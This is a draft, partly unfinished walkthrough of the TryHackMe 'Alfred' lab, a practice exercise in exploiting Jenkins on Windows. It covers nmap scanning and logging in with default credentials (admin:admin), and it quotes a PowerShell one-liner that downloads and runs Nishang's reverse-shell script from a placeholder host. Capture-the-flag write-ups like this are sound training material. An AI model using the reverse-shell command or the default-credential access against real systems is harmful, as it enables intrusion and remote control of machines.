


+++
tags = ["TryHackMe", "Windows", "Nishang"]
title = "Alfred - TryHackMe"
weight = 10
draft = true
images = [ "/walkthroughs/Alfred/Alfred.png" ]
description = "Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens."
+++


Date written: January 2023      
Date published: 

## Task 1: Introduction 

"In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using Nishang to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the reverse shell scripts." - [TryHackMe](https://tryhackme.com/room/alfred).

As always the first step to a TryHackMe room is to connect to either OpenVPN or AttackBox. If you have never connected to [OpenVPN](https://tryhackme.com/room/openvpn) or [AttackBox](https://tryhackme.com/room/tutorial) before try their respective rooms to for a tutorial on how to connect to each one. 


After we're connected to THM the first thing to do is run an nmap scan on our host with ```nmap 10.1.81.21```. We only need to look at TCP ports right now so just a basic scan is fine.  



After a basic NMAP scan I like to run ```nmap -sC -sV $IP```. This will run the default nmap scripting engine (nse) scripts (-sC) and then check for the service version (-sV). You can also specify the ports to scan since we already know which ports are open with ```-p 80, 8080, 3389```

So I like to break my nmap scripts down by port and service. Then list out what possible next steps or attack methods I could do next.

```bash
- 80 HTTP Microsoft IIS 7.5
- 8080 HTTP Jetty 9.4.z-SNAPSHOT
- 3389 TCPWrapped
```



> How many Ports are open? (TCP only)

> Answer: 3

Navigating to your IP in the web browser will give you a picture of Bruce Wayne and an email. There is also nothing useful in the source code that I could find.
 
Since port 80 didn't yield anything useful we can try navigating to port 8080 using ```10.1.81.21:8080```. This brings us to a login page. I will admit I stumbled around hydra for a while trying to get a username and password. So think simple first and then go from there. Think default credentials for a basic web page and we can land on the answer to our next question. 

> What is the username and password for the login panel? (in the format username:password)

> Answer: admin:admin


Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server

> Answer: No Answer needed

> What is the user.txt flag? 

> Answer: 

## Task 2 Initial Access 


## Task3: Privilege Escalation  


## Task 4: Access and Escalation Without Metasploit 
